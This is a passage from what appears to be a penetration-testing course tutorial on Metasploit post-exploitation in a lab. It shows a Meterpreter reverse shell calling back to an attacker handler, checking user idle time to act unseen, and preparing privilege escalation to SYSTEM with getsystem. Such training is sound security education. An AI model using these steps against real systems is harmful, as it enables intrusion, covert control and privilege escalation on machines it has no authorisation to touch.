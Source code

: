 ```
PS C:\Users\dave> .\met.exe
.\met.exe

PS C:\Users\dave>
```

> Listing 57 - Connect to CLIENTWK220 and execute **met.exe** after downloading it

Once the Windows binary is executed, Metasploit notifies us that it opened a new session.

```
[*] Started HTTPS reverse handler on https://192.168.119.4:443
[*] https://192.168.119.4:443 handling request from 192.168.50.223; (UUID: vu4ouwcd) Redirecting stageless connection from /tiUQIXcIFB-TCZIL8eIxGgBxevpyuKwxxXiCTUKLb with UA 'Mozilla/5.0 (Macintosh; Intel Mac OS X 12.2; rv:97.0) Gecko/20100101 Firefox/97.0'
[*] https://192.168.119.4:443 handling request from 192.168.50.223; (UUID: vu4ouwcd) Attaching orphaned/stageless session...
[*] Meterpreter session 8 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-04 06:41:29 -0400

meterpreter >
```

> Listing 58 - Incoming reverse shell from **met.exe**

Now that we have an active Meterpreter session on a Windows target, we can start exploring post-exploitation commands and features.

The first post-exploitation command we use is **idletime**. It displays the time for which a user has been idle. After obtaining basic information about the current user and operating system, this should be one of our first commands as it indicates if the target machine is currently in use or not.

```
meterpreter > idletime
User has been idle for: 9 mins 53 secs
```

> Listing 59 - Display idle time from current user

The output states that the user hasn't been interacting with the system for 9 minutes and 53 seconds, suggesting the user may have stepped away from their computer. If the result of the idletime command indicates that the user is away, we can take this as an opportunity to execute programs or commands which may display a command-line window such as CMD or PowerShell for a moment.

For several post-exploitation features, we need administrative privileges to execute them. Metasploit contains the command *getsystem*, which attempts to automatically elevate our permissions to *NT AUTHORITY\\SYSTEM*. It uses various techniques using named pipe impersonation and token duplication. In the default settings, *getsystem* uses all available techniques (shown in the help menu) attempting to leverage [*SeImpersonatePrivilege*](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication) and [*SeDebugPrivilege*](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs).

Before we execute *getsystem*, let's start an interactive shell and confirm that our user has one of those two privileges assigned.

```
meterpreter > shell
...

C:\Users\luiza> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
...
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
...
```